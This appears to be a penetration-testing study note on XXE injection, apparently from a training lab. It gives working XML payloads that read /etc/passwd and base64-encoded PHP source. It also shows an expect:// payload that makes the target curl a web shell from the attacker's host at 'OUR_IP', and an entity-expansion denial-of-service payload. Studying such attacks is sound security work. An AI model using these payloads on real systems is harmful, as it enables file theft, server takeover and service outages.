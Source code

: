 Let's define an entity and then refer it in the POST request. Entity:
```xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

Then we use `&company;` under the `<email>` tag for the request. It shows the text. Therefore, we may be able to inject code. A non-vulnerable web app would show "&company;". 

> Some may default to JSON, but could still accept other formats. You can try changing the `Content-Type` and convert the JSON to XML with some [online tool](https://www.convertjson.com/json-to-xml.htm).


#### Reading sensitive files
Lets replace the company definition from "Inlane Freight" to SYSTEM "file:///etc/passwd" and repeat. It gave a blank response. I had a hyphen at the end. Be specific. 

#### Reading source code
If we can read source code of the web app, then we can then whitebox pen test. Trying to read `file:///index.php` does not work. Apparently because it is not in a proper XML format, so it fails. The way around is to use the PHP wrapper filters to base64 encode. This now becomes:
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```
The burp inspector can then decode on the fly. **Trick only works for PHP web apps**. 

#### RCE w/ XXE
Easiest method would to look for ssh keys, utilise a "hash stealing trick" in windows based apps, or by making a call to our server. If those do not work, may still be able to execute commands on PHP-based web apps through the filter of `expect://`. Requires the module to be installed and enabled. Most efficient way is by writing a web shell from our server and writing it to the web app. To start our server lets:

```bash
$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
$ sudo python3 -m http.server 80
```
And then change the XML to run a `curl` and get our shell:
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
```
All spaces replaced with `$IFS` to avoid breaking XML syntax. Other chars like |>{ may also break the code, so try to avoid. 

#### Other XXE Attacks
SSRF exploitation, used to enumerate locally open ports and access their pages though the XXE vuln. See Server-side attacks. DOS can also be done with a payload of:

```xml
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
```